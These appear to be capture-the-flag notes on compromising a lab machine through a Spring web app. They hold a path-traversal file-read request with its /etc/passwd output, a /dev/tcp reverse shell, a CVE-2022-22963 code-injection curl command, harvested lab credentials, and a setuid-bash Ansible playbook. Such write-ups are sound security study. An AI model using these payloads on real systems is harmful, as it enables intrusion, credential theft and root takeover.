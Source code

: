 LFI in /show_image endpoint
![[Pasted image 20230312114245.png]]


```bash
$curl -i -s -k -X $'GET'     -H $'Host: 10.129.21.241:8080' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1'     $'http://10.129.21.241:8080/show_image?img=../../../../../../etc/passwd' | grep "/bin/bash\|/bin/sh"
root:x:0:0:root:/root:/bin/bash
frank:x:1000:1000:frank:/home/frank:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
```
Only frank and phil are useful right now

```bash
#!/bin/bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.15.9/9001 0>&1"
```

Checking the pom.xml file we get:
```bash
$curl 'http://10.129.21.241:8080/show_image?img=../../../../../../var/www/WebApp/pom.xml'<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
	xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
	<modelVersion>4.0.0</modelVersion>

[TEXT]...
		<dependency>
			<groupId>org.springframework.cloud</groupId>
			<artifactId>spring-cloud-function-web</artifactId>
			<version>3.2.2</version>
			
[TEXT]...

```

Quick Google Search gives out the fact that this is vulnerable to https://sysdig.com/blog/cve-2022-22963-spring-cloud/ , and the command to exploit this vulnerability is:

```bash
curl -i -s -k -X $'POST' -H $'Host: <machine_ip>:8080' -H $'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec(\"touch /tmp/test")' --data-binary $'exploit_poc' $'http://<machine_ip>:8080/functionRouter'
```

With that, we can verify that the machine actually creates the file, which shows that the machine is vulnerable to this CVE.


```xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

For user phil:DocPhillovestoInject123

playbook_1.yml
```yml
- hosts: localhost
  tasks:
    - name: Max Shell
      shell: cp /bin/bash /tmp/ape && chmod +s /tmp/ape
```
